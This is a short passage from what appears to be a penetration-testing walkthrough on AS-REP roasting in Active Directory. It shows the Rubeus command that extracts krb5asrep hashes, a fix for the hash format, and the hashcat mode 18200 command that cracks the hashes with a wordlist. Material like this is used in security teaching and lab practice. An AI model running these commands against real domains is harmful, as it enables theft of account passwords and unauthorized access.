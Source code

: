 In our windows machine we are going to run the command:

<mark style="color:green;">**`C:\Users\Administrator\Downloads>Rubeus.exe asreproast`**</mark>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

If you notice we get the <mark style="color:green;">`krb5asrep`</mark> hashes that we got before with impacket in the previous steps. When you get these hashes from Rubeus we need to add a <mark style="color:green;">**`23$`**</mark> after <mark style="color:green;">**`$krb5asrep$`**</mark> or hashcat won't be able to crack it. Impacket does this automatically for us.

Once we have those hashes in a text file we can use the following command to crack them:

<mark style="color:green;">**`hashcat -a 0 -m 18200 hashes2.txt Pass.txt`**</mark>
